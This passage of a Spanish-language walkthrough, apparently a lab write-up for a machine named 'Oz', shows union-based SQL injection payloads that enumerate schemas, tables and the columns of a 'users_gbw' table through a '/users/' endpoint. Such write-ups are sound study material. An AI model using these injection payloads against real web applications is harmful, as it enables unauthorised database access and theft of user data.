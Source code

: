 
```bash
/users/'union select group_concat(schema_name) from information_schema.schemata-- -
```

Por ahora voy a enumerar "ozdb" voy a ver las tablas que tiene esa base de datos.

![](/assets/images/Oz/image4.png)

```bash
/users/'union select group_concat(table_name) from information_schema.tables where table_schema=database()-- -
```

Voy a sacar las columnas de "users_gbw"

![](/assets/images/Oz/image5.png)

```bash
/users/'union select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users_gbw'
```
